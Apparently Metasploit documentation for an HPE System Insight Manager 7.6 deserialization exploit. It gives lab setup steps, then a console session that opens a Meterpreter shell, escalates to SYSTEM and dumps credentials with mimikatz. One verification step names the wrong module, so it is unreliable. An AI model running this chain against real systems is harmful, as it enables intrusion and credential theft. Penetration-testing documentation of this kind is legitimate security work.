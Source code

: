 ## Vulnerable Application
A remotely exploitable vulnerability exists within HPE System Insight Manager (SIM) version 7.6.x that can be
leveraged by a remote unauthenticated attacker to execute code within the context of HPE System Insight
Manager's `hpsimsvc.exe` process, which runs with administrative privileges. The vulnerability occurs due
to a failure to validate data during the deserialization process when a user submits a POST request to
the `/simsearch/messagebroker/amfsecure` page.

This module exploits this vulnerability by leveraging an outdated copy of Commons Collection, namely
3.2.2, that ships with HPE SIM, to gain RCE as the administrative user running HPE SIM.

### Installing HP SIM 7.6
1. Set up a Windows Server 2016 VM.
1. Sign up for a HP login if you do not have one already. You can use a throw away email address here.
1. Download HPE SIM from https://myenterpriselicense.hpe.com/cwp-ui/download/swd/product/details/HPSIM-Win-7.x.
1. Search for `Turn Windows Features On or Off`, select `Role-based or feature-based installation`, and click `Next`, until you see `Select features`.
1. Check `SNMP Service` and `.NET Framwork 3.5 Features`, and click `Next`, then `Install`. You may need to be connected to the internet to install .NET 3.5.
1. Download SQL Server 2016 SP2 Express from https://www.microsoft.com/en-us/download/details.aspx?id=56840 and run the installer.
1. Open `Computer Management` and then go to `Computer Management (Local)->Services and Applications->SQL Server Configuration Manager->SQL Server Network Configuration->Protocols for SQLEXPRESS` and double click on `TCP/IP`.
1. Set `Enabled` to `Yes` under the `Protocol` tab.
1. Click on the `IP Addresses` tab and set all `TCP Dynamic Ports` fields from `0` to an empty field, and set all `TCP Port` fields to `1433`. Then click the `Apply` button.
1. Restart the SQL service by running `sc stop MSSQL$SQLEXPRESS` and then after a few seconds, run `sc start MSSQL$SQLEXPRESS`
1. Run the HPE SIM installer and when it gets to the `Database Configuration` page, it should default to `Use SQL/SQL Express`.
1. Ensure at this point that the username is `Administrator` (or whatever the name of the administrative user you are installing as is), and the `Domain` and `Host` values are correct, and that the port is `1433`.
1. For the `Password` field, enter the password of the `Administrator` (or whatever the name of the administrative user you are installing as is), and click the `Next` button.
1. Click `Typical` under the installation option and then select `Next`.
1. On the `Service Account Credentials` screen, enter the password for the `Administrative` user and click `Next`. Then click `Install`.
1. Wait for installation to complete, this could take up to 30 min.
1. Verify that you can view https://127.0.0.1:50000/simsearch/messagebroker/amfsecure and that the page returns a HTTP 200 OK response code.

## Verification Steps

1. Install the application ensure port 50000 is open on the target and that the `/simsearch/messagebroker/amfsecure` page is accessible.
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS` option.
1. Set the `TARGET` option if desired.
1. Set an appropriate payload for the `PAYLOAD` option.
1. Set any additional options as required by the previously selected payload
1. Run the exploit

## Options

## Scenarios

### SIM_7.6_Z7550-96287 on Server 2016

```
msf6 > use exploit/windows/http/hpe_sim_76_amf_deserialization
[*] No payload configured, defaulting to cmd/windows/powershell_reverse_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set TARGET 1
TARGET => 1
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set RHOSTS 172.29.199.4
RHOSTS => 172.29.199.4
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > show options

Module options (exploit/windows/http/hpe_sim_76_amf_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.29.199.4     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      50000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the HPE SIM server
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.29.199.4     no        The target address


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell


msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Found an active amfsecure endpoint on the target!
[*] Started bind TCP handler against 172.29.199.4:4444
[*] Sending stage (200262 bytes) to 172.29.199.4
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.29.199.4:4444) at 2021-03-02 18:32:55 -0600

meterpreter > getuid
Server username: WIN-QKA9JKS5MVU\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > sysinfo
Computer        : WIN-QKA9JKS5MVU
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                              SHA1
--------       ------           ----                              ----
Administrator  WIN-QKA9JKS5MVU  *censored*                        *censored*

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-QKA9JKS5MVU  (null)
WIN-QKA9JKS5MVU$  WORKGROUP        (null)

kerberos credentials
====================

Username                 Domain           Password
--------                 ------           --------
(null)                   (null)           (null)
Administrator            WIN-QKA9JKS5MVU  (null)
MSSQL$SQLEXPRESS         NT Service       (null)
SQLTELEMETRY$SQLEXPRESS  NT Service       (null)
win-qka9jks5mvu$         WORKGROUP        (null)


meterpreter >
```
